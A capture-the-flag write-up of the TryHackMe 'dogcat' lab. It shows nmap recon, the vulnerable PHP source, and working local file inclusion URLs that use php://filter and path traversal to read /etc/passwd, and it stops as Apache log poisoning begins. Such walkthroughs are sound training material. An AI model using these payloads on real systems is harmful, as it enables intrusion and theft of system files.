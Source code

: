 # Dog Cat VM
[Play here](https://tryhackme.com/room/dogcat)

## Recon

Exploring the website, we see that images come in the form of: 
`http://10.10.13.155/cats/7.jpg`

```
❯ nmap -script=default -sV -A 10.10.13.155
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-01 23:30 EST
Nmap scan report for 10.10.13.155
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.90 seconds
```


We can access this :( `http://10.10.13.155/cats/`

Gobuster shows `/cat.php` and `/dog.php`; which shows random images of cats and dogs respectively. Okay. Wow what? There seems no other option than messing around with `php` stuff. 

The room already gives us the hint of having LFI. Looking at [OWASP LFI](php://filter/convert.base64-encode/resource=FILE) we get this `http://vulnerable_host/preview.php?file=../../../../etc/passwd%00` giving us the exact path to the etc file, and we have a filter `php://filter/convert.base64-encode/resource=FILE`. As they metion in `OWASP LFI`, 

> However, in some specific implementations this vulnerability can be used to upgrade the attack from LFI to Remote Code Execution vulnerabilities that could potentially fully compromise the host.

> This enhancement is common when an attacker could be able to combine the LFI vulnerability with certain PHP wrappers.

Sounds interesting. When we go to `http://10.10.152.133/?view=php://filter/read=convert.base64-encode/resource=dog` we see `<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />`. Exactly as we expected.

However, going to `http://10.10.152.133/?view=php://filter/read=convert.base64-encode/resource=../../../../etc/passwd` shows us

![](https://i.imgur.com/6RCCMBr.png)

Note how it wants us to only look at cats or dogs. I put in `http://10.10.152.133/?view=php://filter/read=convert.base64-encode/resource=./dog/../../../../etc/passwd` to sneak, and it gives:

![](https://i.imgur.com/rTB0ycb.png)

So now using that null byte, we get:

![](https://i.imgur.com/U4LAy7k.png)

Nothing yet. So it'd now help to have a look at the index file itself.

```
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

This makes a lot of sense. We can see it always wants dog or cat included. It also has this parameter `ext`, which we can set or unset. This means the url must look like:

```
http://10.10.152.133/?view=php://filter/read=convert.base64-encode/resource=dog../../../../../../etc/passwd&ext=
```

This gives us the contents of the `/etc/passwd` file!

Looking at the contents, we do not find anything out of the blue. What to do next? Well time for a reverse shell. The question is, how do we setup one?


The answer is using `Apache Log Poisoning`.

`http://10.10.152.133/?view=dog/../../../../../var/log/apache2/access.log&ext=`

